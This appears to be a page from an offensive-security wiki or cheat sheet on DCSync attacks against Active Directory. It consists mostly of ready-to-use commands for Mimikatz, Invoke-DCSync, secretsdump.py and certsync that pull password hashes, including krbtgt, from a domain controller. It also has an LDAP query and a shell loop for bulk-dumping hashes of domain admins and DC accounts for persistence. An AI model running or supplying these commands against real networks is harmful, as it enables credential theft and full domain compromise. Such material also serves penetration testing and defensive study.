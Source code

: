 ```yaml
---
description: DS-Replication-Get-Changes + DS-Replication-Get-Changes-All
---
```


# DCSync

* [https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/dump-password-hashes-from-domain-controller-with-dcsync](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/dump-password-hashes-from-domain-controller-with-dcsync)
* [https://habr.com/ru/company/rvision/blog/709866/](https://habr.com/ru/company/rvision/blog/709866/)
* [https://habr.com/ru/company/rvision/blog/709942/](https://habr.com/ru/company/rvision/blog/709942/)
* [https://nullg0re.com/2023/09/hijacking-someone-else-dcsync/](https://nullg0re.com/2023/09/hijacking-someone-else-dcsync/)

{% embed url="https://twitter.com/cnotin/status/1419944965443047424" %}

{% embed url="https://twitter.com/NotMedic/status/1535768397493026818" %}




## Tools



### Mimikatz

```
mimikatz # lsadump::dcsync /domain:megacorp.local /user:MEGACORP\krbtgt
mimikatz # lsadump::dcsync /domain:megacorp.local /user:krbtgt@megacorp.local
```


#### Invoke-Mimikatz

* [https://github.com/BC-SECURITY/Empire/blob/master/data/module_source/credentials/Invoke-Mimikatz.ps1](https://github.com/BC-SECURITY/Empire/blob/master/data/module_source/credentials/Invoke-Mimikatz.ps1)

```
PS > Invoke-Mimikatz -Command '"lsadump::dcsync /domain:megacorp.local /user:MEGACORP\krbtgt" "exit"'
```



### Invoke-DCSync.ps1

* [https://github.com/BC-SECURITY/Empire/blob/master/data/module_source/credentials/Invoke-DCSync.ps1](https://github.com/BC-SECURITY/Empire/blob/master/data/module_source/credentials/Invoke-DCSync.ps1)

```
PS > Invoke-DCSync -GetComputers -Domain megacorp.local -DomainController DC1.megacorp.local
```



### DCSyncer

- [https://www.notsoshant.io/tools/dcsyncer/](https://www.notsoshant.io/tools/dcsyncer/)
- [https://github.com/notsoshant/DCSyncer](https://github.com/notsoshant/DCSyncer)



### secretsdump.py

```
$ secretsdump.py MEGACORP/snovvcrash:'Passw0rd!'@DC1.megacorp.local -dc-ip 192.168.1.11 -just-dc-user 'MEGACORP\krbtgt'
$ secretsdump.py DC1.megacorp.local -dc-ip 192.168.1.11 -just-dc-user 'MEGACORP\krbtgt' -k -no-pass
```


#### Targeted DCSync

When performing targeted DCSync (e. g., for persistence purposes) choose the most valuable accounts. One can use the following LDAP query to search for effective domain admins (`adminCount=1`) as well as DC computer accounts (`SERVER_TRUST_ACCOUNT` bit or `userAccountControl=8192` is set):

```
(&
	(|
		(&(objectCategory=person)(objectClass=user))
		(&(objectCategory=computer)(objectClass=computer))
	)
	(!(userAccountControl:1.2.840.113556.1.4.803:=2))
	(|
		(adminCount=1)
		(userAccountControl:1.2.840.113556.1.4.803:=8192)
	)
)

$ windapsearch --dc 192.168.1.11 -d megacorp.local -u 'DC1$' --hash fc525c9683e8fe067095ba2ddc971889 -m custom --filter '(&(|(&(objectCategory=person)(objectClass=user))(&(objectCategory=computer)(objectClass=computer)))(!(userAccountControl:1.2.840.113556.1.4.803:=2))(|(adminCount=1)(userAccountControl:1.2.840.113556.1.4.803:=8192)))' --attrs msDS-PrincipalName | grep msDS | awk '{print $2}' | tee high-value-targets.txt
$ for t in `cat high-value-targets.txt`; do secretsdump.py -pwd-last-set MEGACORP/'DC1$'@192.168.2.22 -hashes :fc525c9683e8fe067095ba2ddc971889 -just-dc-user $t | grep aad3b | tee -a high-value-hashes.txt; done
Or
$ secretsdump.py -pwd-last-set MEGACORP/snovvcrash:'Passw0rd!'@DC1.megacorp.local -dc-ip 192.168.1.11 -ldapfilter '(&(|(&(objectCategory=person)(objectClass=user))(&(objectCategory=computer)(objectClass=computer)))(!(userAccountControl:1.2.840.113556.1.4.803:=2))(|(adminCount=1)(userAccountControl:1.2.840.113556.1.4.803:=8192)))' | grep aad3b | tee high-value-hashes.txt
```



### certsync

- [https://github.com/zblurx/certsync](https://github.com/zblurx/certsync)

```
$ certsync -d megacorp.local -u snovvcrash -p 'Passw0rd!' -dc-ip 192.168.1.11 -ns 192.168.1.11
```
